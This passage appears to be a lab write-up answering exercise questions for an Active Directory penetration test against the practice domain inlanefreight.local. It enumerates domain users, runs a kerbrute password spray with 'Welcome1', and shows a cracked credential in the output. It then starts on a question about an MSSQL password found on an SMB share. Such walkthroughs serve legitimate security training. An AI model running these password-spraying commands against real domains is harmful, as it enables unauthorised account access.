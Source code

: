 The above system accexx field shows that we can password spray without worrying of account getting locked.

```
Get-DomainUser | select samaccountname > valid_user.txt
```

Cleanup the txt file and performed password spray.

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 valid_user.txt Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 07/06/23 - Ronnie Flathers @ropnop

2023/07/06 23:09:26 >  Using KDC(s):
2023/07/06 23:09:26 >   172.16.7.3:88

2023/07/06 23:09:42 >  [+] VALID LOGIN:  BR086@inlanefreight.local:Welcome1
2023/07/06 23:09:42 >  Done! Tested 2901 logins (1 successes) in 16.063 seconds
```

**What is this user's password?**

```
BR086@inlanefreight.local:Welcome1
```

**Locate a configuration file containing an MSSQL connection string. What is the password for the user listed in this file?**

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption><p>We can see that in smb share there is a config file that this user has access to has a password</p></figcaption></figure>
